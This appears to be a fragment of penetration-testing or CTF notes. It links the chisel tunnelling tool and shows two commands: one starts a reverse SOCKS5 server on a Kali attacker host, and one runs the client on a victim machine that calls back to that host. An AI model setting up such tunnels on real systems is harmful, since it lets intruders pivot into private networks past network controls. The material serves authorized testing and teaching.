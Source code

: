 

<https://github.com/jpillora/chisel>





```bash
┌──(kali㉿kali)-[~/]
└─$ sudo ./chisel_1.7.7_linux_amd64 server --port 3000 -v --reverse --socks5

┌──(vict㉿target)-[~/tmp]
└─$ ./chisel_1.7.7_linux_amd64 client 10.10.14.8:3000 R:5000:socks
```

